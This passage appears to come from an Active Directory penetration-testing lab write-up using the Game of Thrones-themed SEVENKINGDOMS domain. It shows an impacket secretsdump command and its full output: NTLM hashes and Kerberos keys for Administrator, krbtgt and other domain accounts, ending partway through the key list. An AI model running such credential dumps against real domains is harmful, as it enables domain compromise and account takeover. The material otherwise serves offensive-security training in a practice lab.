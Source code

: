 Try a secretsdump:

`secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$@KINGSLANDING`

And we got the secrets!

```bash
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c3a2910c238cb5a530b8b5369a6cf1e:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:266a819ccba54527708c65febab712ad:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:ac819f7c593d51f56b614f3dcc10f193:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:52bac9dd1cab3cdb208d7347118690d9:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5ca87118dd89b088de54fb17b009eccadacf97c564e4112a8d0958f9c929165d
Administrator:aes128-cts-hmac-sha1-96:961cd2fe40742376597e986a969ef586
Administrator:des-cbc-md5:b392b0ba3e3e1925
krbtgt:aes256-cts-hmac-sha1-96:f353b3ba6b9bdbe7b0917a4a73b8250f1938c568798a5a3307bf717fe713a48f
krbtgt:aes128-cts-hmac-sha1-96:6f531a15aa3dbd348c5bfbafdfa68124
krbtgt:des-cbc-md5:1f1aad648c3479c8
localuser:aes256-cts-hmac-sha1-96:96286517ab35191f2184b009d2c1347ea40c2aa6696428df79bcc5b0f4e8514c
localuser:aes128-cts-hmac-sha1-96:531c3e0f768242e32d8ba911abe36fc5
localuser:des-cbc-md5:ab1cefe994f7b5a8
tywin.lannister:aes256-cts-hmac-sha1-96:6d700f4ade8a38d18bdd4f149aab963dfd0dce88a66240abdbdcb9044677fb80
tywin.lannister:aes128-cts-hmac-sha1-96:e813c0778e005572a1bef0c1a5337b76
tywin.lannister:des-cbc-md5:8f2594dada98862a
jaime.lannister:aes256-cts-hmac-sha1-96:1ed5f614b71e193bba93dc07e14c1c445a27ff1a6b0f265e98b45b10f6940ba7
jaime.lannister:aes128-cts-hmac-sha1-96:d7befe9d0dbb7a6d925156d5642ba57f
jaime.lannister:des-cbc-md5:ec51389dd6b67076
cersei.lannister:aes256-cts-hmac-sha1-96:0cbbc101644c0d73d9155b71172c811d41a3a640fea655b1fd6d6a22fd53ca59
cersei.lannister:aes128-cts-hmac-sha1-96:9c22476a9d1c88b472a7567a4380e502
cersei.lannister:des-cbc-md5:10c7a8a2b3643468
tyron.lannister:aes256-cts-hmac-sha1-96:ee2568536d09581b7b5e30b707e58d27e2cf5ee7acfc90dce4de852e44c5633c
tyron.lannister:aes128-cts-hmac-sha1-96:9b7f0a412e6219a1b48b8fb12ff2d499
tyron.lannister:des-cbc-md5:013d7091a470c719
robert.baratheon:aes256-cts-hmac-sha1-96:6b5468ea3a7f5cac5e2f580ba6ab975ce452833e9215fa002ea8405f88e5294d
robert.baratheon:aes128-cts-hmac-sha1-96:4f12248736038b239853bcf1d4abad94
robert.baratheon:des-cbc-md5:49762afd1f38abf1
joffrey.baratheon:aes256-cts-hmac-sha1-96:a008819500909ab61b76564b0d81cf4f7cb1bd7f213206e25df681f92792aa8c
joffrey.baratheon:aes128-cts-hmac-sha1-96:504c606625e04cd3b61107b8a29fdd4d
joffrey.baratheon:des-cbc-md5:fbc262e5efa1160e
renly.baratheon:aes256-cts-hmac-sha1-96:9a71ce0dcb412d20641d5075513644255f08b2a9767b5e79f487e5103cc55385
```